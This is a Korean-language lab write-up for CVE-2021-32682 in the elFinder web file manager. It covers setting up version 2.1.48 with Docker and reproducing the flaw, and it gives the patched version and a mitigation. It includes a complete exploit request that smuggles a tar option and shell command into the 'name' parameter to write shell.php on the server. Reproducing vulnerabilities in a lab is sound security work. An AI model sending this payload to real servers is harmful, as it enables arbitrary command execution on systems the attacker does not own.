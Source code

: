 elFinder ZIP Arguments Injection Leads to Commands Injection (CVE-2021-32682)

elFinder는 JavaScript와 jQuery UI를 사용하여 작성된 오픈 소스 웹 파일 관리자입니다.

elFinder 2.1.48 및 그 이전 버전에서 인수 주입 취약점이 발견되었습니다. 이 취약점을 통해 공격자는 elFinder PHP 커넥터를 호스팅하는 서버에서 최소한의 구성으로도 임의의 명령을 실행할 수 있습니다. 이 문제는 버전 2.1.59에서 패치되었습니다. 해결책으로는 커넥터가 인증 없이 노출되지 않도록 하는 것이 있습니다.

참고:

https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities
https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
https://xz.aliyun.com/t/10739
취약성 환경
다음 명령을 실행하여 elFinder 2.1.48을 시작합니다.

docker compose up -d
서버가 시작되면 elFinder의 메인 페이지를 http://your-ip:8080에서 볼 수 있습니다.

취약성 재현
먼저 이 취약점을 재현하기 위해 2개의 파일을 준비해야 합니다.

1.txt라는 일반 텍스트 파일을 생성합니다.

이 파일을 마우스 오른쪽 버튼을 클릭하여 ZIP 형식으로 압축하고 이 압축된 파일 이름을 2.zip으로 변경합니다.

1.txt 및 2.zip 파일을 준비합니다.

그런 다음 다음 요청을 보내서 임의의 명령을 실행합니다.

GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, /; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US, en; q=0.9, zh-CN; q=0.8, zh; q=0.7
Connection: close

이 요청에서 3가지 중요한 매개변수를 볼 수 있습니다.

name은 -TvTT=id>shell.php # a.zip와 같이 설정되어 있으며, id>shell.php를 임의의 명령으로 수정할 수 있습니다.
targets[0]는 l1_MS50eHQ와 같이 설정되어 있으며, l1은 첫 번째 저장 볼륨을 나타내며 MS50eHQ는 1.txt의 Base64 인코딩 된 문자열입니다.
targets[1]은 l1_Mi56aXA와 같이 설정되어 있으며, l1은 첫 번째 저장 볼륨을 나타내며 Mi56aXA는 2.zip의 Base64 인코딩 된 문자열입니다.
이 요청은 오류 메시지를 반환하더라도 명령이 실행되고 shell.php가 http://your-ip:8080/files/shell.php로 작성된 것을 볼 수 있습니다.
